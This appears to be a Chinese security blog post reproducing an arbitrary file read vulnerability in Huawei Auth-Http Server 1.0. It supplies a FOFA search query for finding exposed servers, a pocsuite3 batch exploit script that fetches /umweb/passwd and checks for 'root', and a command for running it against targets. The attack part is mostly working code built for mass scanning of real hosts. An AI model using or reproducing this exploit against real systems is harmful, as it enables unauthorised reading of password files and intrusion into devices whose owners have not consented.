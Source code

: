 漏洞简介

华为Auth-Http Server 1.0 存在任意文件读取漏洞，攻击者可通过该漏洞读取任意文件。

漏洞复现

1.使用下面fofa语句进行资产收集，确认测试目标

```
fofa语句server="Huawei Auth-Http Server 1.0"
```

2.使用burp工具进行抓包，接着构造命令执行请求包，查看响应的内容

![](C:/Users/30842/Documents/WeChat%20Files/wxid_vtymv0eo2nta22/FileStorage/Temp/e4243fcb596d22ffdcd1be8a6d5afa4d.png)

**批量脚本**

```YAML

from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.api import REVERSE_PAYLOAD, random_str

class enjoyIT1(POCBase):
    pocDesc = ''' 华为Auth-http Server任意文件读取漏洞 '''
    vulID = '1'
    version = '1.0'
    author = '公众号揽月安全团队'
    vulDate = '2023-11-27'
    createDate = '2023-11-27'
    updateDate = '2023-11-27'
    name = '华为Auth-http Server任意文件读取漏洞 '
    appName = '华为Auth-http Server'



    def _verify(self):

        result = {}
        path = "/umweb/passwd"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36",
        }

        url = self.url + path
        payload = '/umweb/passwd'

        try:
            response = requests.get(url, headers=headers,verify=False)
        # 验证成功输出相关信息
            if response.status_code == 200 and 'root' in response.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['payload'] = payload


            return self.parse_output(result)
        except Exception as e:
            pass

register_poc(enjoyIT1)
```

使用语法： pocsuite -r Huawei-Auth-http-server -u http:*//x.x.x.x*